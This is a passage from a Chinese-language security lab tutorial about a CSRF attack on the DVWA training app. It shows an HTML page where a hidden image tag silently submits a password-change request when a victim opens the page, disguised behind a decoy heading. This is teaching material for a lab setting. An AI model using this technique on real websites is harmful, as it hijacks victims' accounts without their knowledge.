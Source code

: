 创建一个 404 的页面，使用 img 标签，使用 css 来使其不现实，这样用户就在不知不觉直接就中招了。

首先我们在 shiyanlou 账户的终端下创建一个 test 的 html：

```
vim test.html
```

然后在该文件中存放这样的内容：

```html
<html>
<body>

<img src="http://192.168.122.102/dvwa/vulnerabilities/csrf/?password_new=shiyanlou_html&password_conf=shiyanlou_html&Change=Change#" border="0" style="display:none;"/>

<h1>Welcome to nginx!</h1>

</body>

</html>
```

可以看到，我们就用了两个标题 404、无法找到来迷惑大家，然后用 img 标签使其自动加载我们放置的钓鱼连接，但是不显示，这样就算中招了也不知道。

保存退出后，我们在家目录中找到该文件：

![show-file](../imgs/wm_405.png)
